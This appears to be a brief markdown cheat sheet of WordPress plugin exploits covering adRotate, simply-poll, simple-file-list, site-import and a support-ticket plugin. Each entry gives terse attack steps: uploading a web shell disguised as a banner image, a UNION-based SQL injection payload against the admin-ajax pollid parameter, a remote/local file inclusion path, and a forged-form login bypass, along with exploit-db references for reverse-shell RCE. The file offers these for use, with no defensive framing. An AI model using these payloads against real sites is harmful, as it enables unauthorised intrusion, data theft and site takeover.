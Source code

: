 # wordpress plugin exploits

## adRotate 5.8.6.2

```
# can upload shell as zip as image banner
# banner images are auto extracted to /banner folder
# use plugin settings to find where the /banner folder is
# mostly /var/www/html/wordpress/wp-content/banners
wp-content/banners/web.php
```

## simply-poll-master 1.4.1 | 1.5 |

```
https://www.exploit-db.com/exploits/40971
# POST http://example.com/wp-admin/admin-ajax.php
# --data="action=spAjaxResults&pollid=1 UNION SELECT 1,2,3,4,5,6,7 --"
# pollid is injectable 
# UNION query : 7 columns; 6th in injectable
```

## simple-file-list 4.2.2 | RCE

```
# direct reverse shell
https://www.exploit-db.com/exploits/48979

# arbitary file upload
https://www.exploit-db.com/exploits/48449
```

## site-import 1.0.1 | LFI + RFI

```
https://www.exploit-db.com/exploits/39558
/wp-content/plugins/site-import/admin/page.php?url=
```

## wp-support-plus-responsive-ticket-system 7.1.3

```
https://www.exploit-db.com/exploits/41006
# make exploit.html > update action to domain > run it > submit form
# refresh website > we are logged in
```
